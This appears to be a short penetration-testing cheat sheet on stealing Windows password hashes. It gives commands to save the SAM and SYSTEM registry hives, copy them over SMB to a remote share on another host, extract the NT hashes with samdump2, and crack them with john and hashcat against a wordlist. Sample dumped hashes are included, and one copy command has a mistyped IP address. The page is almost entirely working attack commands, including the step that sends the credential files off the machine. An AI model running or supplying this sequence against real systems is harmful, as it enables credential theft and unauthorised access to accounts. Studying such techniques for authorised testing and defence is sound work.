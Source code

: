 # Windows - SAM hash

Copy the SAM and SYSTEM files.

{% code overflow="wrap" %}
```bash
reg save hklm\sam c:\sam
reg save hklm\system c:\system
copy sam \\191.168.119.128\alice
copy system \\192.168.119.128\alice   
```
{% endcode %}

Dump the SAM hash values.

```bash
samdump2 system sam > NTHash.txt
Administrator:500:aad3b435b51404eeaad3b435b51404ee:a8c8b7a37513b7eb9308952b814b522b:::
*disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* HelpAssistant:1000:05fa67eaec4d789ec4bd52f48e5a6b28:2733cdb0d8a1fec3f976f3b8ad1deeef:::
*disabled* SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:0f7a50dd4b95cec4c1dea566f820f4e7:::
alice:1004:aad3b435b51404eeaad3b435b51404ee:b74242f37e47371aff835a6ebcac4ffe:::
```

Crack NThash.txt

```
john --format=NT nthash.txt
hashcat -m 1000 nthash.txt /usr/share/wordlists/rockyou.txt
```
